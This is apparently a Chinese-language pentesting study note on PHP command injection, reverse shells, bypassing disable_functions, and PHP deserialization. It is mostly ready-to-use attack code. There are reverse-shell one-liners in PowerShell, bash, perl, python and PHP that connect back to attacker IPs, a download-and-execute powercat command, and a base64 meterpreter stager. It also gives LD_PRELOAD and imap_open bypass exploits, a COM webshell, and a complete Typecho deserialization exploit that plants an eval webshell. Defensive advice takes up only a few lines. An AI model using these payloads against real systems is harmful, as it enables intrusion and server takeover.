


# 命令执行

代码层过滤不严，应用程序之间或间接使用了动态执行命令的危险函数。函数的运行参数可控。

系统命令执行函数

system(),exec(),shell_exec(),popen,``,passthru()

危害：

1. 继承web服务器程序权限，执行系统命令
2. 继承web服务器权限，读取文件
3. 反弹shell
4. 控制网站
5. 控制服务器

防御：

1. 尽量少使用命令执行函数，或者disable_functions
2. 对参数进行过滤

system()有回显

exec()无回显

shell_exec()无回显

passthru()有回显

echo `` `whoami` ``

漏洞利用：

​	继承web用户权限，在服务器中执行任意命令

linux

​	echo  '<?php phpinfo();?>' > 2.php

​    echo "<?php phpinfo();?>" > 3.php

windows

​	echo '<?php phpinfo();?>' > 4.php

windows命令执行语法

​	command &  后台执行命令   

   command & command2  都执行

​	command && command2  只有1执行成功才执行命令2

   command | command2 将第一条命令的结果传递给命令2

  command || command2 只有第一条失败才执行命令2

Linux命令语法

 	command1;command2   先后执行命令1，2 无论是否成功

​	command1&command2   后台执行1后执行2

​	command1&&command2  1成功执行2

​	command1|command2   管道符  

​	command||command2     1失败才执行2

   ``优先执行反引号命令

## 反弹shell

​	反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

在目标服务器进行执行命令时，通过网络获取一个交互式的命令中希环境

**为什么要反弹shell？**

通常用于被控端因防火墙受限、权限不足、端口被占用等情形。

举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

有如下情况：

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。

2.目标机器的ip动态改变，你不能持续控制。

3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。

4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

条件：

1. 攻击机
2. 服务器--公网服务器
3. 获取shell的服务器

```sh
#反弹shell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.21.66:8000/windows/powercat.ps1');powercat -c 192.168.21.107 -p 8888 -e cmd
```


### powershell

目标机器反弹

反向

```sh
#payload
1.1.1.1&powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.21.107:9999/powercat.ps1');powercat -c 192.168.21.107 -p 8888 -e cmd


监听机器
nc -lnvp 8888
```


正向

```sh
#payload
1.1.1.1&powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.21.107:9999/powercat.ps1');powercat -l -p 9001 -e cmd


攻击机
nc 192.168.21.207 9001
```


bash

```sh
#payload
1.1.1.1&bash -i >& /dev/tcp/192.168.21.107/1234 0>&1

攻击机
nc -lnvp 1234
```


### perl

```perl
姿势一
#payload   

1.1.1.1&perl -e 'use Socket;$i="192.168.21.107";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

攻击机
nc -lnvp 1234

=================================================
姿势二
#payload
1.1.1.1&perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.21.107:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

攻击机
nc -lnvp 1234

=================================================
姿势三
#payload
1.1.1.1&perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.21.107:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

攻击机
nc -lnvp 1234

```

### python

```python
姿势一
#payload
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.21.107",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

攻击机
nc -lnvp 1234
=================================================
姿势二
python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('192.168.21.107',1234))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"

攻击机
nc -lnvp 1234
=================================================
metasploit
msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.168.90.1 LPORT=1234
import base64; exec(base64.b64decode('aW1wb3J0IHNvY2tldCxzdHJ1Y3QKcz1zb2NrZXQuc29ja2V0KDIsMSkKcy5jb25uZWN0KCgnMTkyLjE2OC45MC4xJywxMjM0KSkKbD1zdHJ1Y3QudW5wYWNrKCc+SScscy5yZWN2KDQpKVswXQpkPXMucmVjdig0MDk2KQp3aGlsZSBsZW4oZCkhPWw6CglkKz1zLnJlY3YoNDA5NikKZXhlYyhkLHsncyc6c30pCg=='))
```

### php

```php
#payload
php -r '$sock=fsockopen("192.168.21.107",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    
攻击机
nc -lnvp 1234
=================================================

```


# 绕过disable_function

https://mp.weixin.qq.com/s/QU8qytAxun5D7O_vb7POQw

#### 姿势一

 LD_PRELOAD,是一个Linux下的环境变量，允许在程序运行前优先加载的动态链接库
 前提条件
 1.可以上传自己的.so文件
 2.可以控制环境变量的值
 3.利用某个函数去触发该动态链接库
 这里以mail()函数举例。在底层c语言中,mail.c中会调用sendmail，而sendmail_path使从ini文件中说明

```
; For Unix only.  You may supply arguments as well (default: "sendmail -t -i"). 
;sendmail_path =
```

默认为"sendmail -t -i"


但是sendmail并不是默认安装的,需要自己下载

使用命令readelf -Ws /usr/sbin/sendmail可以看到sendmail调用了哪些库函数,这里选择geteuid

.png)

.png)

创建一个test.c文件,并定义一个geteuid函数,目的是劫持该函数。

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
    system("whoami > /var/tmp/sd.txt");
}
int geteuid()
{
    if (getenv("LD_PRELOAD") == NULL) { return 0; }
    unsetenv("LD_PRELOAD");
    payload();
}
使用gcc编译为.so文件
```

```sh
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
这里有个坑:不要在windows上编译,编译出来是MZ头,不是ELF。
```

然后再上传test.so到指定目录下。

最后创建shell.php文件,上传到网站目录下,这里.so文件路径要写对。

```php
<?php
putenv("LD_PRELOAD=/var/www/test.so");
mail("","","","","");
?>
再理一下整个过程:当我们访问shell.php文件的时候,先会将LD_PRELOAD路径设置为恶意的.so文件，然后触发mail()函数,mail函数会调用sendmail函数,sendmail函数会调用库函数geteuid,而库函数geteuid已经被优先加载,这时执行geteuid就是执行的我们自己定义的函数,并执行payload(),也就是代码中的whoami命令写入到sd.txt中。
```

由于拿到的webshell很有可能是www-data这种普通权限。整个过程要注意权限问题,要可写的目录下。

.png)


web访问页面没有文件写出,可以看看定义的目录是否有权限。

####  姿势二：利用Windows com绕过（限Windows）


 条件
 php默认是不能调用外部组件的，这个需要手动开启，如果目标机开启了相关配置，这种绕过方法才能利用。首先在php.ini中添加扩展:
 extension=php_com_dotnet.dll
 然后将com.allow_dcom = true前面的分号去掉，取消注释：
 com.allow_dcom = true

```php
 <?php 
 	$command=$_REQUEST['pass'];
 	$wsh = new COM('WScript.shell');
 	$exec = $wsh->exec("cmd.exe /c".$command);
 	$stdout = $exec->StdOut();
 	$stringput = $stdout->ReadALL();
 	print($stringput);
  ?>
```


#### 姿势三：利用imap_open()绕过

利用条件需要安装iamp扩展,命令行输入:`apt-get install php-imap`在php.ini中开启imap.enable_insecure_rsh选项为On；重启服务。


基本原理为:

```
PHP 的imap_open函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的imap_open函数在将邮箱名称传递给rsh或ssh命令之前不正确地过滤邮箱名称。如果启用了rsh和ssh功能并且rsh命令是ssh命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand参数的恶意IMAP服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意shell命令。
```

EXP:

```
<?php 
error_reporting(0); 
if (!function_exists('imap_open')) { 
die("no imap_open function!"); 
} 
$server = "x -oProxyCommand=echot" . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . "|base64t-d|sh}"; 
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] .
">/tmp/cmd_result") . '|base64$IFS$()-d|sh}'; 
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or
var_dump("nnError: ".imap_last_error()); 
sleep(5); 
echo file_get_contents("/tmp/cmd_result"); 
?>
```

#### 姿势四：利用 Apache Mod CGI

利用条件:

- Apache + PHP (apache 使用 apache_mod_php)
- Apache 开启了 cgi, rewrite
- Web 目录给了 AllowOverride 权限

##### 关于mod_cgi是什么

`http://httpd.apache.org/docs/current/mod/mod_cgi.html`任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中。当Apache 开启了cgi, rewrite时，我们可以利用.htaccess文件，临时允许一个目录可以执行cgi程序并且使得服务器将自定义的后缀解析为cgi程序，则可以在目的目录下使用.htaccess文件进行配置。

##### 如何利用

由于环境搭建困难,使用蚁剑的docker


在web目录下上传`.htaccess`文件

```
Options +ExecCGI
AddHandler cgi-script .ant
```

上传shell.ant

```
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```

由于目标是liunx系统,linux中CGI比较严格。这里也需要去liunx系统创建文件上传,如果使用windows创建文件并上传是无法解析的。


直接访问shell.xxx ,这里报错,是因为没有权限访问


直接使用蚁剑修改权限


复现成功


## 反序列化


序列化的定义为将对象的状态信息转换为可以储存和传输的形式（字符串）的过程，对象将其状态写入到临时或永久存储区，之后可以在存储区读取或反序列化对象的状态，重新创建对象

serialize($a);对 对象 进行序列化

unserialize(); 对数据流进行反序列化

### 反序列化漏洞说明

```
O:5:"User2":2:{s:3:"age";i:0;s:4:"name";s:0:"";}
```

```php
#序列化后的数据

类型:类名长度:类名:属性数量:{(属性一)类型:(属性一)名称长度:(属性一)名称;(属性一)值类型:(属性一)值长度:(属性一)值;(其余属性相同)}
```

##### **绕过__wakeup()方法**

有当序列化字符串中，表示对象属性个数的值大于实际属性个数时，那么就会跳过wakeup方法的执行，即：

`O:4:"Test":**2**:{s:4:"test";s:18:"<?php%20phpinfo();?>";}这种 你就会绕过__wakeup()，__wakeup()内部全都不会执行啦 不信你可以试试`）

### 反序列化漏洞案例

http://ip/seri_evil.php?usr_serialized=O:9:%22FileClass%22:1:{s:8:%22filename%22:s:11:%22/etc/passwd%22;}


 

 服务器接受COOKIE或者POST传递的__typecho_config参数

进行base64解码 及反序列化 -》$config

对参数$config['adapter'],$config['prefix'] 创建Typecho_Db对象

创建对象的时候，使用了字符串拼接$config['adapter'],调用了__toString方法

调用to_String方法中时候调用了$item['author']->screenName的__get方法

__get方法返回的是对象的get($screenName（属性）)方法

get方法中又调用的_applyFilter($screenName);方法

 此方法中对所有filter数组中的函数 对接收的value进行函数的执行

 最后的结果为 assert("file_put_contents('shell.php', '<?php @eval($_POST[l]);?>')")

```php
<?php

class Typecho_Feed{
  private $_type = 'ATOM 1.0';
  private $_items = array();
  public function addItem(array $item){
​     $this->_items[] = $item;
  }
}

class Typecho_Request{
  	private $_params = array('screenName'=> 'file_put_contents(\'shell.php\', \'<?php @eval($_POST[l]);?>\')');
  	private $_filter = array('assert');
}

$payload1 = new Typecho_Feed();

$payload2 = new Typecho_Request();

$payload1->addItem(array('author' => $payload2));

$exp = array('adapter' => $payload1, 'prefix' => 'typecho');

echo base64_encode(serialize($exp));

?>
```

构建payload


生成base64编码

YToyOntzOjc6ImFkYXB0ZXIiO086MTI6IlR5cGVjaG9fRmVlZCI6Mjp7czoxOToiAFR5cGVjaG9fRmVlZABfdHlwZSI7czo4OiJBVE9NIDEuMCI7czoyMDoiAFR5cGVjaG9fRmVlZABfaXRlbXMiO2E6MTp7aTowO2E6MTp7czo2OiJhdXRob3IiO086MTU6IlR5cGVjaG9fUmVxdWVzdCI6Mjp7czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfcGFyYW1zIjthOjE6e3M6MTA6InNjcmVlbk5hbWUiO3M6NTk6ImZpbGVfcHV0X2NvbnRlbnRzKCdzaGVsbC5waHAnLCAnPD9waHAgQGV2YWwoJF9QT1NUW2xdKTs/PicpIjt9czoyNDoiAFR5cGVjaG9fUmVxdWVzdABfZmlsdGVyIjthOjE6e2k6MDtzOjY6ImFzc2VydCI7fX19fX1zOjY6InByZWZpeCI7czo3OiJ0eXBlY2hvIjt9

 

请求头中添加Referer字段

Referer: http://192.168.148.129/typecho/install.php?finish=1



访问写入的shell.php


 


 

蚁剑连接



### **防御PHP反序列化漏洞**

1.要严格控制unserialize函数的参数，坚持用户所输入的信息都是不可靠的原则 2.要对于unserialize后的变量内容进行检查，以确定内容没有被污染